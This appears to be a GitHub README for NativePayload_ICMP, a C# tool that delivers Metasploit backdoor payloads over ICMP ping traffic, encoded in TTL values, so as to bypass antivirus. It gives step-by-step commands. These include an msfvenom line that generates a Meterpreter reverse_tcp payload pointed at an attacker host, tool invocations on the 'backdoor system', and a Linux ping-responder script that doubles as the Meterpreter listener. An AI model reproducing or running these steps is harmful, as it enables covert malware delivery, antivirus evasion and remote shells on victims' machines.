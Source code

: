 # NativePayload_ICMP v1.0
C# code Published by Damon Mohammadbagher

Article step by step : https://www.peerlyst.com/posts/transfer-download-payload-by-icmpv4-traffic-via-ttl-damon-mohammadbagher


NativePayload_ICMP : transfer Backdoor Payloads by ICMPv4 Traffic and bypassing Anti-Viruses

Tested : Win7 SP1 and Win 2008 R2

step by step:

example step1 msfvenom --arch x86_64 --platform windows -p windows/x64/meterpreter/reverse_tcp lhost=192.168.1.50 -f c > payload.txt

note: copy your msfvenom output payloads to 'Payload string' like 'fc4883e4f0e8cc00000415141505265'

example step2 c:\\> NativePayload_ICMP.exe null "Payload string" > script.sh

example step2 c:\\> NativePayload_ICMP.exe null fc4883e4f0e8cc00000415141505265 > script.sh

example step3 c:\\> NativePayload_ICMP.exe ipaddress (sending ICMPv4 traffic to this ipaddress by ping)

example step3 c:\\> NativePayload_ICMP.exe 192.168.1.50 

example step4 linux side ./script.sh  (run this script in PING Responder linux system).

note: after chmod also adding #!/bin/bash to script.sh file , you can run this script in PING Responder system.

note: you should run this script in your linux after step3 for Response to PING traffic from backdoor system

note: Backdoor system is win with NativePayload_ICMP.exe and ipaddress for example: 192.168.1.120

note: PING Responder system is linux with ./script.sh and ipaddress for example : 192.168.1.50

note: PING Responder system is also Meterpreter Listener by ipaddress : 192.168.1.50

<summary>

in this case after 1020 ping request and response you have Meterpreter Session by ICMPv4

Dumping Payloads by TTL from PING Response...

Meterpreter Payload is 510 bytes

510 * 2 = 1020

 0 ... 1019 = 1020 Request
 
</summary>

# NativePayload_ICMP v2.0

"NativePayload_ICMP.exe" v2.0 C# Code and Shell Script "NativePayload_ICMP.sh" v1.0 Released for Ebook. (May 2018 , bug fixed).

    NativePayload_ICMP.exe v2.0 syntax: 
    NativePayload_ICMP.exe help

    NativePayload_ICMP.sh v1.0 syntax: 
    step0 Client-Side with ipv4 w.x.y.z , syntax :./NativePayload_ICMP.sh shtext "your text or string"
    step1 Server-Side with ipv4 w1.x1.y1.z1 syntax :./NativePayload_ICMP.sh listen "w.x.y.z"
    Note: in step1 you should use Client-side system w.x.y.z IPv4Address
    help syntax : ./NativePayload_ICMP.sh help

Download  "NativePayload_ICMP.exe" v2.0 C# Code and Shell Script "NativePayload_ICMP.sh" v1.0 here : https://github.com/DamonMohammadbagher/NativePayload_ICMP/tree/master/EBOOK

<p><a href="https://hits.seeyoufarm.com"><img src="https://hits.seeyoufarm.com/api/count/incr/badge.svg?url=https://github.com/DamonMohammadbagher/NativePayload_ICMP"/></a></p>
